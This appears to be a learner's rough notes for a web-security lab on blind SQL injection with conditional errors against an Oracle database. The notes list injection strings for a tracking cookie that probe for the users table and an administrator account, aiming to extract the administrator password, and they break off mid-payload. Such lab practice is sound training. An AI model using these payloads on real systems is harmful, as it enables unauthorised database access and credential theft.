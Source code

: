 Lab #12 - Blind SQL injection with conditional errors

Vulnerable parameter - tracking cookie

End Goals:
	- Output the administrator password
	- Login as the administrator user


Analysis: 

1) Prove that param is vulnerable

' || (select '') ||' --> gives error
2) confirm users table exist
' || (select '' from dual) || ' --> its oracle db doesn;t gives error
 ' || (select '' from users where rownum =1) || '
 -> users table exists

3) administrator user exist
' || (select '' from users where username ='administrator') || '

case expression in orcacle

' || (select CASE)'